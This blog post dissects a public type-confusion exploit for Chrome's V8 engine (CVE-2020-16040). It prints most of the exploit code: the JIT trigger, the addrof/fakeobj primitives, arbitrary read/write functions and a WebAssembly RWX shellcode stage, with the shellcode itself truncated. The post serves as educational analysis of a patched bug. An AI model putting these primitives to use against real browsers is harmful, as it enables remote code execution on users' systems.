 ```yaml
---
layout: post
title:  "Dissecting a Type Confusion Exploit in Chrome's V8 JavaScript Engine"
categories:
---
```


# Overview
V8 is Google's [JavaScript Engine](https://v8.dev) that runs the Chrome browser, the electron framework, node.js, and much more. This article discusses how attackers use type confusions to gain RCE in the browser sandbox, but does not go into details about the internals of the V8 engine. <br />

This article follows CVE-2020-16040, a type confusion vulnerability with a [public exploit on exploit-db](https://www.exploit-db.com/exploits/49745) by r4j0x00. The Chrome developers released the [bug report](https://bugs.chromium.org/p/chromium/issues/detail?id=1150649) in March 2021. Since then, V8 exploitation has changed quite a bit, however many of the fundamentals discussed here remain the same. <br />

# Exploit Roadmap 
Below are the following high-level steps to exploit a type confusion vulnerability in V8,
<br />
1. Use the vulnerability to corrupt the "length" field of an Array object.
2. Use the corrupted Array object to generate out-of-bounds access primitives on the JS heap.
3. With OOB access, create the *addrof* and *fakeobj* primitives for manipulating JS objects.
4. Use the *addrof* and *fakeobj* functions to create arbitrary read and write functions.
5. Create a RWX segment using WebAssembly.
6. Overwrite the contents of RWX pages with arbitrary read and write functions from step 4. 
7. Pop calculators! 
<br />

Note that one can test this exploit in D8, the command line version of V8. Pre-built binaries of V8 can be found [here](https://commondatastorage.googleapis.com/v8-asan/index.html). This vulnerability was patched in V8 commit reference [71364](https://chromium.googlesource.com/v8/v8/+/ba1b2cc09ab98b51ca3828d29d19ae3b0a7c3a92), so I used version 71363 which can be downloaded [here](https://www.googleapis.com/download/storage/v1/b/v8-asan/o/linux-release%2Fd8-linux-release-v8-component-71363.zip?generation=1606216067630505&alt=media). <br /> 

## Use the corrupt the "length" field of an Array object
In the following JS snippet, "foo", contains the vulnerability exploited in this code. The vulnerability is found in V8's optimizing compiler, TurboFan, and involves the improper treating of signed versus unsigned integers. As one can see, the code here is pretty messed up, but notice that the "foo" function returns two arrays `arr` and `cor`. <br />
{% highlight js %} 
function foo(a) {
  var y = 0x7fffffff;

  if (a == NaN) y = NaN;
  if (a) y = -1;

  let z = y + 1;
  z >>= 31;
  z = 0x80000000 - Math.sign(z|1);

  if(a) z = 0;

  var arr = new Array(0-Math.sign(z));
  arr.shift();
  var cor = [1.1, 1.2, 1.3];

  return [arr, cor];
}
{% endhighlight %}
<br />

`arr` is a JS Array object that will eventually have a length of -1. The exploit then uses this to corrupt the length of the `cor` array that immediately follows it. Note that in V8, adjacent objects in JavaScript will occupy adjacent memory regions on the JS heap. <br /> 
{% highlight js %}
for(var i=0;i<0x3000;++i)
    foo(true);

var x = foo(false);
var arr = x[0];
var cor = x[1];
{% endhighlight %} 
<br />

The above snippet triggers JIT compilation of the "foo" function. JIT compilers, like V8, optimize functions as they run; computerphile as a nice [youtube video](https://www.youtube.com/watch?v=d7KHAVaX_Rs&ab_channel=Computerphile) about how they work. After JIT optimization, the V8 engine makes assumptions based on the input always being `true`. However, it fails to adequately deoptimize the function when the input is `false`. <br />

## Use the corrupted Array object to generate out-of-bounds access primitives on the JS heap
After triggering JIT compilation, the below snippet will created OOB primitives. <br />
{% highlight js %}
const idx = 6;
arr[idx+10] = 0x4242;
{% endhighlight %} 
<br />

Here the `idx` variable is a variable that changes from version to version, based on V8's internal memory representation of JS Array objects. This snippet of code uses the `arr` variable to set `cor.length` to 0x4242. Since the V8 engine is not tracking this, it will result in OOB reads and writes on the JS heap. <br />

![D8 command line](/images/v8-exploitation-breakdown/v8-length-screenshot.png)

<br />

## Creating the *addrof* and *fakeobj* functions
The *addrof* and *fakeobj* functions are well-known function in JIT exploitation. For more information, I recommend reading V8 Security lead Samuel Groβ's [phrack.org article](http://phrack.org/issues/70/9.html#article). <br />

{% highlight js %}
function addrof(k) {
    arr[idx+1] = k;
    return ftoi(cor[0]) & 0xffffffffn;
}

function fakeobj(k) {
    cor[0] = itof(k);
    return arr[idx+1];
}
{% endhighlight %} 
<br />

These functions use the `ftoi` and `itof` functions which are utility functions from the exploit that convert integers to IEEE 754 double precision values and back. *addrof* will leak the memory address of an arbitrary JS object into the JS runtime. *fakeobj* is a bit more complex, it involves tricking V8 into thinking that any blob of memory allocated by the attacker is a JS object. <br />

For analogies in C, imagine that *addrof* works like the "&" operator, and returns the memory address associated with any variable to the attacker. For "fakeobj", imagine that the attacker can cast a pointer to a variable to any type that they choose. <br />

## Creating arbitrary read and write functions
The following code will create arbitrary read and write functions, where an attacker can provide any address to read and write memory from. Both of these functions involves corrupting the backing store of `fake`. In V8, JavaScript Arrays have a backing store pointer; it is a memory address where elements in the array are stored in a linear fashion. The code below uses the variable `arr2` to set the backing store of `fake` to an attacker controlled address. This allows the attacker to read and write arbitrary memory by indexing the `fake` array. <br />

{% highlight js %}
var float_array_map = ftoi(cor[3]);

var arr2 = [itof(float_array_map), 1.2, 2.3, 3.4];
var fake = fakeobj(addrof(arr2) + 0x20n);

function arbread(addr) {
    if (addr % 2n == 0) {
        addr += 1n;
    }
    arr2[1] = itof((2n << 32n) + addr - 8n);
    return (fake[0]);
}

function arbwrite(addr, val) {
    if (addr % 2n == 0) {
        addr += 1n;
    }
    arr2[1] = itof((2n << 32n) + addr - 8n);
    fake[0] = itof(BigInt(val));
}
{% endhighlight %} 
<br />

## Allocating RWX memory using WebAssembly
Until surprisingly recently, allocating a WebAssembly function in V8 resulted in RWX segments in memory. This is the perfect spot to fit some shellcode. In modern versions of V8, this is no longer the case. Although there are [documented workarounds](https://securitylab.github.com/research/in_the_wild_chrome_cve_2021_37975/) to this. However, in this version, no additional steps are required and one can allocate RWX memory directly with the following snippet,

<br />
{% highlight js %}
var wasm_code = new Uint8Array([0,97,115,109,1 ...])
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var f = wasm_instance.exports.main;
{% endhighlight %}
<br />

Running `cat /proc/$(pidof d8)/maps | grep rwx` will show the RWX memory! 

## Overwrite the contents of the RWX memory with shellcode
In the below snippet, the exploit leaks the address of the RWX memory region from the WebAssembly object from step 5. It will then use the `copy_shellcode` function (omitted) to take the shellcode as integers and write that using the `arbwrite` function. From there, the exploit calls the WebAssembly function `f()` which now contains attacker controlled data. Note that the contents of the wasm_code variable are not important. 

{% highlight js %}
var rwx_page_addr = ftoi(arbread(addrof(wasm_instance) + 0x68n));
console.log("[+] Address of rwx page: " + rwx_page_addr.toString(16));
var shellcode = [16889928,16843009,1213202689, ...];
copy_shellcode(rwx_page_addr, shellcode);
f();
{% endhighlight %} 

# Conclusion 
The article walks through an exploit in the V8 JavaScript. In practice, this grants an attacker code execution within the browser sandbox. This is often the first stage in a browser exploit chain, followed by a sandbox escape. <br />

As of writing, more recent versions of V8 have introduced new technical hurdles with V8 exploitation. Most notably is the V8 pointer cage (also called the V8 sandbox, not to be confused with the browser sandbox), which limits pointers inside of the JS heap. This makes acquiring arbitrary read and write primitives significantly more difficult in an exploit. <br />

As always, thanks for reading. 

